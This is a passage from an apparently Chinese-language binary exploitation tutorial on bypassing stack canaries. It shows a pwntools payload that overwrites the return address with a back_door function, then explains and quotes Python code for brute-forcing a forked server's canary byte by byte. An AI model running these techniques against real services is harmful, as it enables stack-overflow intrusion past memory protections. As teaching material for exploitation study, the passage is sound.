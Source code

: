 ```python
    payload2 = '\x00'*0x64 + p32(canary)
    payload2 = payload2.ljust(0x70+4,'\x00')
    payload2 += p32(back_door)

    p.send(payload2)
    p.recv()
    sleep(1)
    p.interactive()
```

![Alt](img/wiki-canary5.png)

### one-by-one爆破Canary

对于 Canary，虽然每次进程重启后的 Canary 不同 (相比 GS，GS 重启后是相同的)，但是同一个进程中的不同线程的 Canary 是相同的， 并且通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存。我们可以利用这样的特点，彻底逐个字节将 Canary 爆破出来。 在著名的 offset2libc 绕过 linux64bit 的所有保护的文章中，作者就是利用这样的方式爆破得到的 Canary:

```python
    print "[+] Brute forcing stack canary "

    start = len(p)
    stop = len(p)+8

    while len(p) < stop:
        for i in xrange(0,256):
            res = send2server(p + chr(i))

            if res != "":
                p = p + chr(i)
                #print "\t[+] Byte found 0x%02x" % i
                break

            if i == 255:
                print "[-] Exploit failed"
                sys.exit(-1)


        canary = p[stop:start-1:-1].encode("hex")
        print "   [+] SSP value is 0x%s" % canary
```
